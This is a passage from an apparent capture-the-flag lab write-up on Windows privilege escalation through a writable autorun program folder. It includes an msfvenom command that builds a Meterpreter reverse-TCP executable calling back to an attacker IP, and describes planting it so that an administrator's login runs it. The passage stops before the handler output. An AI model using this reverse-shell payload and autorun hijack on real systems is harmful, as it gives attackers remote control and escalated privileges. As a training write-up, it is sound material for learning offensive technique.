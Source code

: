 First, i looked at autoruns64.exe for "program.exe", then i checked with accesschk that the group "Everyone" has the "FILE_ALL_ACCESS" permission  :

![Permission](/images/thm/windowsprivescarena/windowsprivescarena_2.png)
_Permission_

After building a program.exe reverse with msfvenom on the attacker machine :

```console
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.135.148 -f exe -o program.exe
```
{: .nolineno }

I uploaded this in the "C:\Program Files\Autorun Program" directory. (Via python3 HTTP server on attacker)

Then launched a handler in Metasploit and relogged to an admin session to simulate an adminsitrator connexion :
